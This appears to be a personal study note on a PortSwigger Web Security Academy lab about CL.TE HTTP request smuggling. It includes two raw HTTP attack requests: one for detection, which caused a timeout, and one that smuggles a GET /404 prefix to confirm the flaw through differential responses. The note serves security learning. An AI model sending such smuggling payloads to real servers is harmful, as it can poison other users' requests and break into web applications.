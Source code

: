 [Lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=WB_E6EybP_o&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=4&ab_channel=JarnoTimmermans)

# Detection
```
POST / HTTP/1.1
Host: 0a0c00d003cbc85280b84e12008d007e.web-security-academy.net
Content-Length: 7
Transfer-Encoding: chunked

1
A
X
```
Caused a timeout:
![[Backend Timeout first req.png]]

# Usage of differential responses

![[Differential responses CL TE.png]]

```HTTP
POST / HTTP/1.1
Host: 0aca00ab04595db587f25c6600150017.web-security-academy.net
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: x
```
![[Pasted image 20250818174952.png]]
Got **200 OK**
Immediately send a normal `GET /` request and got the **404 not found**

